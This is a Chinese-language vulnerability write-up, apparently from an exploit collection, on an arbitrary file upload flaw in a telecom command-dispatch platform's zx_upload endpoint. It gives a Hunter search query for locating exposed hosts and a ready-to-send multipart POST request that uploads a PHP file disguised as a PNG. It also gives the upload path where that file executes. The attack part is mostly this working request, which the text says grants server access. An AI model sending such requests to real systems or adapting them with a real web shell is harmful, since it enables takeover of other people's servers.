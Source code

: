 # 指挥调度平台zx_upload存在任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">指挥调度管理平台是一个专业针对通信行业的管理平台。该产品旨在提供高效的指挥调度喝管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。用户可以通过该平台发送指令、调度人员、分配任务。</font>指挥调度平台zx_upload存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 指挥调度平台

# 三、资产测绘
+ hunter`web.body="app/structure/departments.php"`
+ 特征

![1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74.png](./img/dtrlvvnt9GTXfWHv/1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74-007881.png)

# 四、漏洞复现
```plain
POST /custom/zx/upload.php HTTP/1.1
Host: {hostname}
Content-Length: 180
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySwvD8hSn3Z0sHfMu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundarySwvD8hSn3Z0sHfMu
Content-Disposition: form-data; name="ulfile";filename="1.php"
Content-Type: image/png

<?php echo 222*111;?>
------WebKitFormBoundarySwvD8hSn3Z0sHfMu--
```

![1704271134372-bb98e096-7cfc-456f-b840-bd1829f83a8d.png](./img/dtrlvvnt9GTXfWHv/1704271134372-bb98e096-7cfc-456f-b840-bd1829f83a8d-238637.png)

上传文件位置

```plain
/upload/1.php
```

![1704271164814-a0e390ba-a95a-471a-b3a3-79e8a379df27.png](./img/dtrlvvnt9GTXfWHv/1704271164814-a0e390ba-a95a-471a-b3a3-79e8a379df27-548553.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gpc8sz8begguncm0>